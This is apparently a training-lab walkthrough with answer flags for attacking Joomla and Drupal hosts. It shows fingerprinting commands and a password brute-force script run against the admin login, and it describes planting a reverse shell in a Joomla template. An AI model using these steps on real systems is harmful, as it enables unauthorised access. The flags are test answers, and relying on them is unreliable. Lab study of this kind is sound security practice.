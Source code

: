 Results: l00k_ma_unAuth_rc3!


**vHosts needed for these questions:**
**app.inlanefreight.local**

**Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)**

```
droopescan scan joomla --url http://$target/
curl http://app.inlanefreight.local/administrator/manifests/files/joomla.xml

```

Results:  3.10.0


**Find the password for the admin user on http://app.inlanefreight.local**

```
sudo python3 joomla-brute.py -u http://$target -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

Results:  turnkey


vHosts needed for these questions:
dev.inlanefreight.local

Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

```
sudo python3 joomla-brute.py -u http://$target -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
# Output: 
# admin:admin

# In my case I entered as admin:admin and modify the index.php template to include a pentesmonkey reverse shell. After that:
cat /var/www/html/dev.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt
```

Result: j00mla_c0re_d1rtrav3rsal!

**vHosts needed for these questions:**
**drupal.inlanefreight.local**
**drupal-qa.inlanefreight.local**

**Identify the Drupal version number in use on http://drupal-qa.inlanefreight.local**

```
 curl -s http://drupal-qa.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
# Output
# Drupal 7.30, 2014-07-24
```

Results: 7.30

**Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory.**
